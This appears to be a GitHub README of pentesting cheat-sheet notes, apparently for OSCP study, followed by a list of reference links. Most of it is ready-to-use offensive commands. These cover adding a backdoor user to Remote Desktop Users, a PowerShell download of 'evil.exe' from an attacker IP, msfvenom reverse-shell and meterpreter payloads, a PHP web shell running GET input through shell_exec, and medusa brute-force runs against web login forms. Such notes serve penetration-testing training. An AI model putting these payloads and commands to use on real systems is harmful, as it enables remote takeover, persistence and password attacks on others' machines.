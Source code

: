 # Cybersecurity Cheatsheats
Collection of cybersecurity notes and cheat sheets.  If I pulled content from some else’s cheat sheet or site it will be listed reference section.

## User and group managment

Windows
```shell
net user bob bob123 /ADD
net localgroup "Remote Desktop Users" bob /ADD
net localgroup "Users" bob /ADD
```
## Starting services
linux
```shell
systemctl start ssh
systemctl start apache2
service apache2 start
```

## Enable/Disable service to start on boot
linux
```shell
systemctl enable apache2
systemctl disable apache2
```
## Download files

Powershell
```powershell
powershell (new-object System.Net.WebClient).DownloadFile('http://[your_ip_address]/evil.exe','evil.exe')
```

## msfvenom examples
```shell
msfvenom -p windows/shell_reverse_tcp  HOST=[your_ip_address] LPORT=[Port] -f asp > shell.asp
```

```shell
msfvenom -p windows/meterpreter/reverse_tcp [your_ip_address] LPORT=[Port] -f aspx > shell.aspx
```

## shells

```php
<<?php echo shell_exec($_GET['cmd']);?>
```

medusa example
```shell
medusa \
  -h [target_ip] \
  -u offsec \
  -P nmap.lst \
  -M web-form \
  -m FORM:"login.php" \
  -m DENY-SIGNAL:"Wrong Username or Password" \
  -m FORM-DATA:"post?user=&pass=&Login=Login"


  medusa \
-h [target_ip]\
-u admin \
-P /data/dict/dict.txt \
-M web-form \
-m FORM:"admin/test.php" \
-m DENY-SIGNAL:"ACCESS DENIED" \
-m FORM-DATA:"post?u=&p=&Login=Login"
```


## References
* http://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/?redirect
* http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet
* http://pentestmonkey.net/tools/audit/unix-privesc-check
* http://pentestmonkey.net/tools/web-shells/php-reverse-shell
* http://resources.infosecinstitute.com/privilege-escalation-linux-live-examples/
* http://www.computersecurity.org/computer-cyber-security-certifications-education-college-courses/cheat-sheet-how-to-pass-the-oscp-offensive-security-certified-professional-exam-step-by-step-guide-enumerating-services-part-2/
* http://www.computersecurity.org/computer-cyber-security-certifications-education-college-courses/cheat-sheet-how-to-pass-the-oscp-offensive-security-certified-professional-exam-step-by-step-guide-sqli-xss-web-app-attacks-part-5/
* https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/
* https://blog.sucuri.net/2013/05/from-a-site-compromise-to-full-root-access-local-root-exploits-part-ii.html
* https://hackingandsecurity.blogspot.com/2016/04/oscp-related-notes.html?m=1
* https://hackingandsecurity.blogspot.com/2016/04/oscp-related-notes.html?m=1
* https://hackmag.com/security/reach-the-root/
* https://highon.coffee/blog/penetration-testing-tools-cheat-sheet/
* https://highon.coffee/blog/tr0ll-1-walkthrough/
* https://jordanpotti.com/oscp/
* https://jordanpotti.com/oscp/
* https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/
* https://security.stackexchange.com/questions/68442/escalating-from-apache-shell-to-root
